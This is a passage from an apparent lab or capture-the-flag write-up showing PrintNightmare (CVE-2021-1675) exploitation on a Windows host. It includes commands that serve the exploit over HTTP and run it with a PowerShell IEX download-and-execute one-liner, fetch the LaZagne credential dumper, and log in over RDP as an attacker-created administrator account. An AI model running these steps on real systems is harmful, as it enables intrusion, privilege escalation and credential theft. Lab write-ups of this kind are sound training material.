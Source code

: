 #### Answers 
`KB3XXXXXX`
`KB3XXXXXX`


#### 2. Find the password for the ldapadmin account somewhere on the system.


Clone PrintNightmare:

```
$ git clone https://github.com/calebstewart/CVE-2021-1675.git
Cloning into 'CVE-2021-1675'...
remote: Enumerating objects: 40, done.
remote: Counting objects: 100% (3/3), done.
remote: Compressing objects: 100% (2/2), done.
remote: Total 40 (delta 1), reused 1 (delta 1), pack-reused 37 (from 1)
Receiving objects: 100% (40/40), 127.17 KiB | 9.78 MiB/s, done.
Resolving deltas: 100% (9/9), done.
```

Add new line at the bottom of `CVE-2021-1675.ps1`:

```
sudo nano CVE-2021-1675.ps1
```

<img width="1006" height="664" alt="image" src="https://github.com/user-attachments/assets/72b28147-f93b-49df-b6cb-920c1a7807a4" />


Start a web server:

```
$ python3 -m http.server 8888
Serving HTTP on 0.0.0.0 port 8888 (http://0.0.0.0:8888/) ...

```

Use PowerShell's IEX to invoke the script in the previous web-browser:

`127.0.0.1 | powershell IEX(New-Object Net.Webclient).downloadString('http://IP:PO/CVE-2021-1675.ps1')`

<img width="1223" height="685" alt="image" src="https://github.com/user-attachments/assets/07a39de5-4c56-4014-b427-678e862b494a" />

<img width="1239" height="686" alt="image" src="https://github.com/user-attachments/assets/ed5722f1-209b-4fbd-a1d6-7a9055c9f82a" />

lazange.exe ((in same directory(sorry my directories are in a bad place here)) 

```
wget -q https://github.com/AlessandroZ/LaZagne/releases/download/2.4.3/lazagne.exe
```

Connect with RDP as the newly created user  `Hacker:Pwnd1234!`: 

```
$ xfreerdp /v:10.129.225.46 /u:Hacker /p:'Pwnd1234!' /dynamic-resolution
```

